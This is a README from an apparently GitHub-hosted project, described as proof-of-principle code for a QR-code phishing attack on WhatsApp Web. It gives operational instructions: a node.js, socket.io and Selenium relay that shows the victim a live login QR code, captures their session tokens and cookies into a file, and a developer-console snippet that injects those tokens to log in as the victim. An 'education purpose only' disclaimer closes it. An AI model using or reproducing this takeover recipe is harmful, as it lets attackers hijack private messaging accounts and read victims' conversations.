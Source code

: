#Whatsapp phishing

This repo contains proof of principle code for running an phishing attack against the official [Whatsapp Web client](https://web.whatsapp.com).
I also wrote about it on my [german blog](http://blog.mawalabs.de/whatsapp-phishing/)

##Whatsapp what?

http://www.whatsapp.com/faq/web/28080003

Short: A web client for Whatsapp. You log in by scanning a QR code on there page using Whatsapp

##What does it do

It will extract the QR code from [Whatsapp Web](https://web.whatsapp.com) and display it on a new page.
If someone scans the code using Whatsapp it will grab the credentials from the web client and save them in a file.
You can use these credentials to log yourself in as the person who scanned to QR code.

##How does it work

The program uses node.js and socket.io for the website and selenium, a tool for scripting browsers, to communicate with the Whatsapp web client.

The program starts a http and a socket.io server. If a new client connects to socket.io the application will make a request to a selenium instance to start a new browser and connect to web.whatsapp.com. It will fetch the QR code data and send it to the client via the websocket connection. The client javascript then shows the QR code to the user.

If the QR code gets scanned Whatsapp will authenticate the selenium controlled browser and store some tokens in the localStorage and document.cookie. We extract that data and save it into a text file. It will look like so:

```
{
   "s":{
      "remember-me":"true",
      "WAVersion":"\"0.1.4391\"",
      "qwefsdafadsdf==":"false",
      "debugCursor":"146",
      "WAWamDimensionCache":"{\"AppVersion\":\"0.1.4391\",\"BrowserVersion\":\"Firefox 39.0\",\"DeviceName\":\"Linux x86_64\",\"WebcEnv\":0}",
      "WAToken2":"\"0.asldkamäsdflkasdfasdf\"",
      "WAWamLastRotate":"1439140177924",
      "WALangPref":"\"de-DE\"",
      "WAWamStatus":"\"completed\"",
      "y8fY/zQ8P+asdfadfg==":"[
        ...
      ]",
      "WAToken1":"\"asdf+ams,dfhlaskdjfhasdfasdf=\"",
      "Dexie.DatabaseNames":"[\"wawc\"]",
      "storage_test":"storage_test",
      "LKAJsdlksdjfasdf==":"false",
      "logout-token":"\"alkjsdhfkjashldkjpweoaLKNKASBkasjbdaksdjLKjhhndosiaosa;AljkhJKhlKAJShkljqjDJSAOlkjbnhasdklWAdm==\"",
      "ver":"1",
      "whatsapp-mutex":"\"x781239870495:init0.987123490234\"",
      "WASecretBundle":"{\"key\":\"sldkfjsdf+asdlfijlasdkjfasdf=\",\"encKey\":\"asldkfjasldkfjsdfsdf0=\",\"macKey\":\"a,sdfasdf+alskdjföalskdhiopasdf=\"}",
      "WABrowserId":"\"aö,ksdjflöasdf==\""
   },
   "c":""
}
```

You can than import these tokens into your browser and log in as the person who scanned the QR code.

##Instructions

   * Download the [selenium standalone server](http://www.seleniumhq.org/download/) jar file and install Firefox if you don't have it already.
   * Type the following into your terminal
   
    ```
    $ java -jar selenium-server.jar
    $ # new terminal
    $ git clone https://github.com/Mawalu/whatsapp-phishing.git
    $ cd whatsapp-phishing
    $ npm install
    $ node index.js
    ```
   * Open your browser and go to [http://localhost:8080](http://localhost:8080)
   * Start Whatsapp on your smartphone, go to Menu > Whatsapp Web and scan the QR code from your browser.
   * Copy the content from the newly created secrets file
   * Open web.whatsapp.com. (Watch out that you are not alredy logged in, maybe use incognito mode)
   * Open your developer console
   * Enter the following code:
   
   ```
   > var t = CONTENT_OF_YOUR_SECRETS_FILE
   > function login(token) {Object.keys(token.s).forEach(function (key) {localStorage.setItem(key, token.s[key])}); token.c = token.c.split(';'); token.c.forEach(function(cookie) {document.cookie = cookie; });}
   > login(t)
   ```
   * Reload the page
   * You should be logged in as the person who scanned the QR code

##Disclaimer

Whatsapp messages are meant to be private. Just because the NSA reads everything it doesn't mean you should do as well! Everything in this repo is for education purpose only and I am not responsible if you use it otherwise.

##Thanks

Special thanks to [@niklasbuschmann](https://github.com/niklasbuschmann) who helped me with this project

